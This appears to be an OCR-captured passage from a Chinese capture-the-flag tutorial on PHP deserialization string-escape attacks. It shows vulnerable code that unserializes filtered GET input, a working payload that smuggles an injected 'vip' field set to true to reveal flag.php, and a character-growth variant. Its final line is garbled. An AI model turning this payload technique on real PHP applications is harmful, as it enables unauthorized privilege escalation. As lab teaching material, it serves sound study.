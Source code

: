 ```php
$param=$_GET['user'];
$pass=$_GET['pass'];
$param=serialize(new test($param,$pass));
$profile=unserialize(filter($param));

if ($profile->vip){
    echo file_get_contents("flag.php");
}
payload:
$param='flagflagflagflagflagflagflagflagflagflag';
$pass= '1";s:4:"pass";s:6:"benben";s:3:"vip";b:1;}';
//首先：
O:4:"test":3:{s:4:"user";s:40:"flagflagflagflagflagflagflagflagflagflag";s:4:"pass";s:42:"1";s:4:"pass";s:6:"benben";s:3:"vip";b:1;}";s:3:"vip";b:0;}
//会转变为
O:4:"test":3:{s:4:"user";s:40:"hkhkhkhkhkhkhkhkhkhk";s:4:"pass";s:42:"1";s:4:"pass";s:6:"benben";s:3:"vip";b:1;}";s:3:"vip";b:0;}

hkhkhkhkhkhkhkhkhkhk";s:4:"pass";s:42:"1会被吃掉，vip被赋值为1，后面的语句失效
//然后：
object(test)#1 (3) {
  ["user"]=>
  string(40) "hkhkhkhkhkhkhkhkhkhk";s:4:"pass";s:42:"1"
  ["pass"]=>
  string(6) "benben"
  ["vip"]=>
  bool(true)
}
```



### 字符增多

```php
<?php
class A{
    public $v1 = 'ls';
    public $v2 = '123';
}
$data = serialize(new A());
echo $data;
//O:1:"A":2:{s:2:"v1";s:2:"ls";s:2:"v2";s:3:"123";}
$data = str_replace("ls","pwd",$data);
echo $data;
//O:1:"A":2:{s:2:"v1";s:2:"pwd";s:2:"v2";s:3:"123";}
//字符增多，会把末尾多出来的字符挤出
var_dump(unserialize($data));//b
//思路：把吐出来的字符构造成功能性代码
```

O:1:"A":2:{s:2:"v1";s:??:"pw**d";s:2:"v3";s:3:"666";}**“;s:2:”v2“;s:3:”“123”;}
